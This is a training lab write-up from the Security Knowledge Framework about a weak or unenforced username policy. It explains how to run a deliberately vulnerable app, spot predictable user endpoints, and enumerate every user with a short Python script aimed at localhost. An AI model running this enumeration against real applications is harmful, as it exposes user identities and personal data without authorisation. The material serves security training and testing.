

# KBID xxx - Weak or Unenforced Username Policy

## Running the app

```
$ sudo docker pull blabla1337/weak-or-unenforced-username-policy
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/weak-or-unenforced-username-policy
```





Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


Now that the app is running let's go hacking!



## Reconnaissance

To test for this vulnerability, we need to enumerate the users of the application and investigate any interesting information we find.

After creating a user and logging in, we can go to the user profile page and observe that our current user information is displayed.

If we open the developer tools and navigate to the network tab, we can see that the user information is loaded from the `/users/<username>-<number>` endpoint.



We created a user named `John Doe` with the endpoint `/users/jdoe-1`. When we tried `/users/jdoe-0`, we got information about a different user, indicating that the user ID is incremented by one for each user. This suggests that we can enumerate users.

The `/users/` endpoint returns a list of all users, though it is not used in the application. It is still interesting to see what information is returned.

## Exploitation

We can use a simple script to enumerate the users. The script will use the `/users/` endpoint to get a list of all users, then use the `/users/<username>-<number>` endpoint to get the information of each user. We need to use `name`, `last_name`, and a counter to generate the correct endpoint.

```python
import requests

url = "http://localhost:5000/users/"

r = requests.get(url)
users = r.json()

usernames = []
for user in users:
    name = user["name"]
    last_name = user["lastname"]
    username = name[0].lower() + last_name.lower() + "-"
    temp_l = [user for user in usernames if user.startswith(username)]
    usernames.append(username + str(len(temp_l)))

for username in usernames:
    r = requests.get(url + username)
    print(r.json())
```

> Note: We can also use Burp Intruder to enumerate the users.

## Additional sources

[owasp.org | Testing for Weak or Unenforced Username Policy](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/03-Identity_Management_Testing/05-Testing_for_Weak_or_Unenforced_Username_Policy)
